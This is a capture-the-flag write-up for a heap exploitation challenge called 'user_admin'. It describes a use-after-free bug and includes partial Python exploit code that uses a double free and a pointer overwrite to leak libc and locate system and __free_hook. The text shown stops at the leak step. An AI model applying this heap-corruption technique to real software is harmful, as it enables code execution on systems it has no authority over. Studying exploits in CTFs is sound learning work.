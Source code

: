 * **Category:** pwn
* **Points:** 493
* **Solves:** 15

>We created a super secure user administration system can you guys help us find the unknown vulnerability.
>
>nc 34.69.116.108 3333
>
>Author: codacker

### **Solution**

Glibc version for this challenge is libc 2.27.

To be honest, I don't really know how I came up with the solution for this challenge. I trial and errored my way to getting the leak. After that, it was very easy.

The program has all security mitigations enabled except Full RELRO:
```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-re-challenges/rooters-2019/user_admin$ checksec vuln
[*] '/ctf/pwn-and-re-challenges/rooters-2019/user_admin/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

It lets you create a user where you type in the user's name and age. This user is malloc'd and a pointer to the user is stored in a global variable.

It lets you edit the user's name and age.

It lets you delete the user, which simply frees the user but doesn't NULL out the global variable, thus UAF.

It lets you send a message to an admin, which will again just allocate a new message on the heap.

All allocations are pretty much done with `strdup`, except when creating a user.

I found out that by doing the following, we can get a leak of `_IO_str_jumps_`:
```python
# Initial user
create('A'*8, 15)

# Double free
free()
free()

# Change LSB of fd to 0x80
edit('\x80', 15)

create('A', 15)
message('A'*0x30)

leak = u64(p.recvuntil('Saving').split('\n')[2][-6:].ljust(8, '\x00'))
libc.address = leak - 0x3e82a0
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Leak: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))
```
